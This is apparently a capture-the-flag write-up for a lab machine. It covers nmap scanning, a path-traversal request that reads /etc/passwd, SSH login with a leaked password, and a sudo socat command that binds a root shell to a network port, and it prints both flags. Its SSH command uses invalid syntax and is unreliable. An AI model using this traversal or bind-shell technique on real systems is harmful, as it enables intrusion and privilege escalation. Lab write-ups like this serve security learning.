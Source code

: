 # Inclusion

### #1 User flag
Get the open ports using nmap
```
nmap -sV -sC <ip>

PORT      STATE    SERVICE  VERSION
22/tcp    open     ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp    open     http     Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
```
In the webpage we can use the ?name to print out files as root
```
http://<ip>/article?name=../../../etc/passwd
```

We find the user falconfeast and his password
```
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash #falconfeast:rootpassword 
```

Login to ssh using the username and password 
```
ssh falconfeast:rootpassword@<ip>
```
Cat out the user flag
```
cat /home/falconfeast/user.txt
60989655118397345799
```

### #2 Root flag  
Check if there is anything we can execute as root without using password 
```
sudo -l
(root) NOPASSWD: /usr/bin/socat
```
Exploit socat
```
sudo socat TCP4-LISTEN:1234,reuseaddr EXEC:"/bin/sh"
```
Connect to the listener
```
socat - TCP4:<ip>:1234
```
Cat out the root flag
```
cat /root/root.txt
42964104845495153909
```
